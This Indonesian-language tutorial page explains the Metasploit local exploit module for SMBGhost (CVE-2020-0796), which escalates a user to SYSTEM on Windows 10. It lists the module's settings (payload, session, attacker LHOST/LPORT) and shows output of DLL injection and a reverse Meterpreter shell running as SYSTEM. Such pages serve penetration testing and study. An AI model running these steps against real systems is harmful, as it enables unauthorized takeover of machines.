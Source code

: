 # cve_2020_0796_smbghost

Modul `cve_2020_0796_smbghost` (versi local) di Metasploit adalah `exploit lokal` untuk sistem Windows yang memanfaatkan kerentanan `SMBGhost` (`CVE-2020-0796`) dalam protokol `SMBv3`. Modul ini digunakan setelah akses awal didapatkan, untuk meningkatkan hak akses (`privilege escalation`) dari user biasa menjadi `SYSTEM`, dengan menyalahgunakan kelemahan manajemen memori dalam driver `SMBv3` pada `Windows 10` versi `1903` dan `1909`.

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/cve_2020_0796_smbghost
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Windows Build Number = 10.0.18363.0
[+] The target appears to be vulnerable.
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching netsh to host the DLL...
[+] Process 6076 launched.
[*] Reflectively injecting the DLL into 6076...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (203846 bytes) to 192.168.1.51
[*] Meterpreter session 2 opened (192.168.1.11:4444 -> 192.168.1.51:49782) at 2025-05-17 17:09:49 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
